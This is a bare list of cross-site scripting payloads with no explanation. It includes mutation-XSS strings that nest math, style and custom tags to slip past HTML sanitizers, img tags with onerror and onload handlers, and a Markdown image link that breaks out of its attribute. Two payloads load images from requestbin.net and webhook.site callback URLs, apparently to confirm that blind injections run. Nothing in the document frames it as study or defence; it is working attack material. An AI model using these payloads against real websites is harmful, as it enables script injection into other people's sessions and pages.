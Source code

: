 ">a<math>s<xss style=display:block>t<style>X<a title=""</style>a<img src="http://requestbin.net/r/154l6z91/123" onerror=alert()>">s.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src='https://webhook.site/830d2611-45c3-4448-9b8d-c80b74811960' onerror=alert()>">.<a>.


">a<math>a<xss style=display:block>t<style>X<a title=""</style>a<img src=x onerror=alert()>">.<a>.

<img onload='alert()'>

var xx = <math style=""><img onload=xxx>


![Uh oh...]("onerror="alert('XSS'))
